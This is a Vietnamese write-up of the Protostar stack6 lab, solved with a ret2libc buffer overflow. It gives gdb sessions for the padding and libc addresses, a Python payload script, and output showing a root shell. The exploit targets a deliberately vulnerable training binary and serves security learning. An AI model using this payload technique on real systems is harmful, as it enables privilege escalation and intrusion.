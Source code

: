 ```
&	0xbf000000
	__________
	0xbf000000 <-- luôn luôn bằng 0xbf000000
```
Để có thể xuất được shell thì trong bài này ta sẽ sử dụng phương pháp `ret2libc`.  
Đầu tiên là tìm lượng padding cần thiết để flow được vào `eip`.  
```
(gdb) b *0x08048508
Breakpoint 1 at 0x8048508: file stack6/stack6.c, line 31.
(gdb) r < /tmp/payload 
Starting program: /opt/protostar/bin/stack6 < /tmp/payload
input path please: got path AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPUUUURRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZ

Program received signal SIGSEGV, Segmentation fault.
0x55555555 in ?? ()
(gdb) x/x $ebp
0x54545454:	Cannot access memory at address 0x54545454 		<-- 'TTTT'
(gdb) 
```
Sau đó là tìm địa chỉ của system() và exit()  
```
(gdb) p system
$1 = {<text variable, no debug info>} 0xb7ecffb0 <__libc_system>
(gdb) p exit
$2 = {<text variable, no debug info>} 0xb7ec60c0 <*__GI_exit>
```
Cuối cùng là tìm địa chỉ của string "/bin/sh":  
```
(gdb) find 0xb7e97000, 0xb7e97000+9999999, "/bin/sh"
0xb7fba23f
warning: Unable to access target memory at 0xb7fd9647, halting search.
1 pattern found.
```
Nhưng khi kiểm tra thì địa chỉ tìm thấy lại không phải chuỗi ta cần tìm :v  
```
(gdb) x/s 0xb7fba23f
0xb7fba23f:	 "KIND in __gen_tempname\""
```
Vậy nên mình đã dùng cách khác:  
```
user@protostar:/opt/protostar/bin$ strings -td /lib/libc-2.11.2.so | grep /bin/sh
1176511 /bin/sh 						<-- địa chỉ của '/bin/sh' = địa chỉ của lib + 1176511
user@protostar:/opt/protostar/bin$ 
``` 
Cuối cùng là ghép lại thành 1 file payload:  
```
import struct
pd = "AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPUUUURRRRSSSSTTTT"
sysadd = struct.pack("I",0xb7ecffb0)
exitadd = struct.pack("I",0xb7ec60c0)
binadd = struct.pack("I",0xb7e97000+1176511)
payload = pd + sysadd + exitadd + binadd
print payload
```
Chạy file để lấy được shell:  
```
user@protostar:/opt/protostar/bin$ (python /tmp/payload.py; cat) | /opt/protostar/bin/stack6
input path please: got path AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPP���RRRRSSSSTTTT����`췿c��
id
uid=1001(user) gid=1001(user) euid=0(root) groups=0(root),1001(user)
whoami
root
ls
final0	format0  format3  heap1  net0  net3    stack1  stack4  stack7
```